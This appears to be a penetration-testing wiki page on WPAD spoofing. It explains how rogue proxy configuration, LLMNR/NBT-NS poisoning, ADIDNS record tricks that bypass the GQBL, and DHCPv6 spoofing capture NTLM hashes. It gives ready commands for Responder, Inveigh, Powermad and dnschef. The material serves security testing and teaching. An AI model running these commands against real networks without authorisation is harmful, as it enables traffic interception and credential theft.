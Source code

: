 # WPAD spoofing

## Theory

The Web Proxy Automatic Discovery \(WPAD\) protocol allows clients to obtain proxy configurations for Internet access through a `wpad.dat` file hosted on a server which address is usually resolved through DNS. This allows corporations to easily manage web proxy configs through a single file.

## Practice

WPAD spoofing can be combined with 

* [LLMNR and NBT-NS spoofing](llmnr-nbtns-mdns-spoofing.md)
* [ARP spoofing](arp-poisoning.md) or [DHCPv6 spoofing](dhcpv6-spoofing.md), followed by [DNS spoofing](dns-spoofing.md)

### through LLMNR, NBT-NS spoofing

On old Windows systems \(i.e. lacking the MS16-077 security update\), the WPAD location could be obtained through insecure name resolution protocols like LLMNR and NBT-NS when standard DNS queries were failing \(i.e. no DNS record for WPAD\). This allowed attackers to operate [LLMNR and NBT-NS spoofing](llmnr-nbtns-mdns-spoofing.md) to answer those WPAD queries and redirect to a fake `wpad.dat` file, hence poisoning the web proxy configuration of the requesting clients, hence obtaining more traffic.

[Responder](https://github.com/SpiderLabs/Responder) \(Python\) and [Inveigh](https://github.com/Kevin-Robertson/Inveigh) \(Powershell\) are great tools for name poisoning. In addition to name poisoning, they also have the ability to start servers \(listeners\) that will [capture authentications](../ntlm/capture.md) and echo the NTLM hashes to the attacker.

{% tabs %}
{% tab title="UNIX-like" %}
The following command will start [LLMNR, NBTS and mDNS spoofing](llmnr-nbtns-mdns-spoofing.md). Name resolution queries for the wpad server will be answered just like any other query. Fake authentication servers \(HTTP/S, SMB, SQL, FTP, IMAP, POP3, DNS, LDAP, ...\) will [capture NTLM hashes](../ntlm/capture.md).

* The `--wpad` option will make Responder start the WPAD rogue server so that fake `wpad.dat` file can be served to requesting clients.
* The `--ForceWpadAuth` option is needed on servers that applied the MS16-077 security patch. This patch introduced a mitigation that now prevents clients from automatically authenticating. This option forces the authentication request, hence potentially causing a login prompt.

```bash
responder --interface eth0 --wpad --ForceWpadAuth
```
{% endtab %}

{% tab title="Windows" %}
The following command will start [LLMNR, NBTS and mDNS spoofing](llmnr-nbtns-mdns-spoofing.md). Name resolution queries for the wpad server will be answered just like any other query. Fake authentication servers \(HTTP/S, SMB, SQL, FTP, IMAP, POP3, DNS, LDAP, ...\) will [capture NTLM hashes](../ntlm/capture.md) \(even from machine accounts\) and set the Challenge to `1122334455667788` \(to [crack NTLM hashes](../credentials/cracking.md#practice) with [crack.sh](https://crack.sh/)\).

* Inveigh starts a WPAD rogue proxy server by default.
* Options like `-WPADAuth`, `-WPADAuthIgnore`, `-WPADIP`, `-WPADPort`, `-WPADResponse` \(and others\) can be used to tweak the WPAD abuse.

```text
Invoke-Inveigh -ConsoleOutput Y -LLMNR Y -NBNS Y -mDNS Y -Challenge 1122334455667788 -MachineAccounts Y
```
{% endtab %}
{% endtabs %}

### through ADIDNS spoofing

On up-to-date machines \(i.e. with the MS17-066 security update applied\), WPAD can still be abused through [ADIDNS spoofing](adidns-spoofing.md) if the WPAD record does not exist. There is however a DNS block list mitigation called GQBL \(Global Query Block List\) preventing names like WPAD and ISATAP \(default entries\) to be resolved. This block list exists to reduce vulnerabilities associated with dynamic DNS updates but [it can be edited](https://docs.microsoft.com/en-us/previous-versions/tn-archive/cc995158%28v=technet.10%29) when [implementing WPAD](https://docs.microsoft.com/en-us/previous-versions/tn-archive/cc995261%28v=technet.10%29).

#### Pre CVE-2018-8320

On machines that are not patched against [CVE-2018-8320](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2018-8320), there are two ways to bypass the GQBL: by [registering a wildcard record](adidns-spoofing.md#manuel-record-addition) or by registering a domain alias \(DNAME\) record, which can be conducted as follows with [Powermad](https://github.com/Kevin-Robertson/Powermad) \(Powershell\).

```bash
New-ADIDNSNode -Node 'pentester01' -Data 'Pentest_IP_Address'
New-ADIDNSNode -Node wpad -Type DNAME -Data 'pentester01.TARGETDOMAIN.LOCAL'
```

#### Post CVE-2018-8320

On machines that are patched against that CVE, registering a name server \(NS\) record could still work. 

```bash
New-ADIDNSNode -Node 'pentester01' -Data 'Pentest_IP_Address'
New-ADIDNSNode -Node wpad -Type NS -Data 'pentester01.TARGETDOMAIN.LOCAL'
```

In order for the NS record technique to work, the tester has to have a DNS server running for [DNS spoofing](dns-spoofing.md). This can easily be accomplished with [dnschef](https://github.com/iphelix/dnschef) \(Python\).

```bash
dnschef --fakeip 'Pentest_IP_Address' --interface 'Pentest_IP_Address' --port 53 --logfile dnschef.log
```

### through DHCPv6 spoofing

On up-to-date machines \(i.e. with the MS17-066 security update applied\), WPAD can still be abused through [ADIDNS spoofing](adidns-spoofing.md), **even if the WPAD record does exist**. With DNS poisoning through DHCPv6 spoofing, an attacker can reply to DHCPv6 requests, and then reply to DNS queries.

This attack can be conducted with [mitm6](https://github.com/fox-it/mitm6) \(Python\), see the [DHCPv6 spoofing](dhcpv6-spoofing.md) page for exploitation notes.

## References

{% embed url="https://blog.netspi.com/adidns-revisited/" %}

{% embed url="https://www.fox-it.com/en/news/blog/mitm6-compromising-ipv4-networks-via-ipv6/" %}



